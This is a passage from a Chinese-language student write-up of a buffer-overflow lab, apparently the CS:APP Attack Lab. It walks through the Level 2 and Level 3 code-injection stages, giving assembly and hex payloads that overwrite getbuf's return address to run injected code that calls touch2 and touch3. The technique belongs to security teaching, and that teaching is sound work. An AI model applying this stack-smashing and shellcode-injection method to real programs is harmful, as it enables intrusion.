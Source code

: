 读取当前栈指针以及Gets的第一个参数。由gdb反馈可知缓冲区的起始地址为`0x5561dc78`。

接下来构造payload程序：

```asm
movl $0x59b997fa,%edi # 将cookie放进参数寄存器
push $0x4017ec # 将返回地址设置成touch2的地址
ret
```

由此构造payload：

```
bf fa 97 b9 59          /* movl $0x59b997fa,%edi */
68 ec 17 40 00          /* push $0x4017ec */
c3                      /* ret */
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20 20 20 20
20 20 20 20 20          /* 填充缓冲区剩余部分 */
78 dc 61 55 00 00 00 00 /* 代码地址作为getbuf的返回地址 */
```

getbuf返回到payload中后，由于返回地址被弹出栈，栈指针指向的位置比buf尾部高8字节。此时将touch2的返回地址push进栈中，touch2的地址会被放置在原来的返回地址处，不会影响到我们的程序代码。

### Lv.3

目标是从getbuf返回到touch3，并传递cookie**字符串**作为参数。和上一题思路相同，但是实操上有两点不同。

- 要传递字符串实际上是传递字符串指针。这个字符串需要被构造在payload里，并向touch3传递地址
- 在验证字符串的合法性时，程序会调用hexmatch函数，可能会对栈上的数据产生影响，必须避免这种影响。

为了避免后续调用对栈上的payload产生影响，我们可用使得栈指针指向的位置低于buf的内存空间。

之前得出过buf的地址是`0x5561dc78`。我们将cookie串放在payload的开头，则cookie串的地址就是buf的地址。于是构造程序如下：

```asm
movl $0x5561dc78,%esp # 将栈指针设在buf开头位置，避免后续过程影响payload
movl $0x5561dc78,%edi # 将cookie字符串地址作为第一个参数，which is buf的地址
push $0x4018fa # 将返回地址设置为touch3
ret
```

由此构造payload：

```
35 39 62 39 39 37 66 61 /* cookie字符串 位于payload开头 */
00 00 00 00 00 00 00 00 /* 字符串需要\0结尾 为了好看就搞8字节 */
bc 78 dc 61 55          /* movl $0x5561dc78,%esp */
bf 78 dc 61 55          /* movl $0x5561dc78,%edi */
68 fa 18 40 00          /* push $0x4018fa */
c3                      /* ret */
20 20 20 20 20 20 20 20 /* 填充缓冲区剩余部分 */
88 dc 61 55 00 00 00 00 /* 将代码地址(buf+16)作为getbuf的返回地址 */
```

## Part.2 Return-Oriented Programming
